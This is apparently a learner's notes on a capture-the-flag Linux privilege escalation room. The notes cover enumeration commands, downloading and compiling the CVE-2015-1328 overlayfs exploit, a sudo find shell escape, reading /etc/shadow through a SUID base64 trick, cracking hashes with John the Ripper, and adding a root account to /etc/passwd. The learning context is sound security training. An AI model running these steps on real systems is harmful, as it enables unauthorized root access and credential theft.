# Linux Priviledge Escalation Room

## TASK 3
This task highlighted some commonly used commands for Linux to help guide you into who you are, what connectivity from this device is, and what to look for as possible vulnerability.
- ```uname -a ```
- ``` hostname  ```
- ```cat /proc/version```
- ```cat /etc/issue```
- ```ps -A ``` or ```ps axjf```
- ```sudo -l```
- ```cat /etc/passwd```
- ```ifconfig```
- ```netstat -at```
- ```find /home -name flag1.txt```  or ``` find / -type f -perm 0777 ```
    - ``` find / -perm -u=s -type f 2>/dev/null ``` allows you to find SUID bit files, which allows us to run the file with a higher privilege level than the current user.


## TASK 5
In the room for the Linux Exploitation Task 5, you'll need to use the HackBox to create a new file called `ofs.c` with the contents of the `CVE-2015-1328.c` in it. This is based on the content of the exploit here https://www.exploit-db.com/exploits/37292. Spin up a python3 server by executing: 
    ``` python3 -m http.server 9000```
Then from the target computer, you'll use wget to download the ofs.c file and compile it using the command:
    ```gcc ofs.c -o ofs```
This should result in you opening a shell that results in you being root


## TASK 6
 
For this task the new box needs to be spun up so that there's a box that has the name `LinPrivEscSUDO`. TO start answering questions you'll need to first execute the command to find out which services the current user has the ability to run without password the sudo command. In this case I ran
    ```sudo -l```
From here it lisited the number of services that is the answer to the first question on this task. I was able to go to the site that's referenced in the dialague for this task [GTFOBins](https://gtfobins.github.io/) and search for each of the services listed to see which one would allow us to escalate into a shell that is root privileges. This case I used the command
     ``` sudo find . -exec /bin/sh \;``` 
which started a root session and from there able to cat the flag2.txt file for the answer to the second question. For the third question, using [GTFOBins](https://gtfobins.github.io/) searched for the sudo use of nmap and used the command I found there for the correct answer. Last question took a little bit of searching for how to accomplish the goal, but what I learned was that ```cat /etc/passwd``` allowed me to see that despite frank not having a home directory, frank did have a password hash stored in /etc/shadow. Pretty cool details for how to interpret that file found on this [site](https://takahideiwai.github.io/Cryptography/01-passwordcracking/index.html)


## TASK 7
This task is similar to the one above, but we need to deal with the set user id (SUID) and set group id (SGID) concepts. Using the command:
    ```find / -type f -perm -04000 -ls 2>/dev/null```
we are able to find out which services you can actually run as the owner of those services. The use of [GTFOBins] is still relevant here to list which services have SUID exploits. This section also includes the steps for using the /etc/shadow and /etc/passwd files to list valuable information. Steps are as follows:

- Create outputs of both files by running ```nano passwd.txt ``` and  ```nano shadow.txt``` and copy the contents of the ```base64 "$LFILE" | base64 --decode``` command for each while replacing the LFILE variable with which file you need to read.
- Use the unshadow tool to export to a file with ```unshadow passwd.txt shadow.txt > passwords.txt```
- Execute John the Ripper with a wordlist that will print out password in plain text ```john passwords.txt --wordlists /usr/share/wordlists/rockyou.txt``` if executing from the AttackBox. Then 

The Alternative path was to add the new user hash to the /etc/passwd file with root permissions. This could be done by using the ```openssl passwd -1 -salt ``` command and adding ```:/root:/bin/bash``` permission. This second route only works if you have the ability to sudo into root and adding edit permissions on the /etc/passwd file. 